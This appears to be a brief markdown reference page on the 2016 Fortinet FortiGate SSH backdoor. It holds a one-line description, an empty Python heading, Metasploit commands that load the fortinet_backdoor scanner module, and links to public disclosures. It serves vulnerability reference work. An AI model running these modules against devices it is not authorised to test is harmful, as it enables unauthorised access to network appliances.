

# Fortinet SSH Backdoor

A recently identified backdoor in hardware sold by security company Fortinet has been found in several new products, many that were running current software, the company warned this week.

## Python



## Metasploit

```
msf > use auxiliary/scanner/ssh/fortinet_backdoor
msf auxiliary(fortinet_backdoor) > show actions
msf auxiliary(fortinet_backdoor) > set ACTION <action-name>
msf auxiliary(fortinet_backdoor) > show options
msf auxiliary(fortinet_backdoor) > run
```

## References

1. https://www.rapid7.com/db/modules/auxiliary/scanner/ssh/fortinet_backdoor
2. http://seclists.org/fulldisclosure/2016/Jan/26
3. https://www.reddit.com/r/sysadmin/comments/40jmsr/full_disclosure_ssh_backdoor_for_fortigate_os/
4. https://www.reddit.com/r/netsec/comments/40lotk/ssh_backdoor_for_fortigate_os_version_4x_up_to/
5. http://www.filewatcher.com/b/ftp/ftp.cozumnetwork.net/Fortinet/Fortigate/Fortigate_Firmware/Firmware/v5.00/V5_5.04-0.html
6. https://arstechnica.com/security/2016/01/secret-ssh-backdoor-in-fortinet-hardware-found-in-more-products/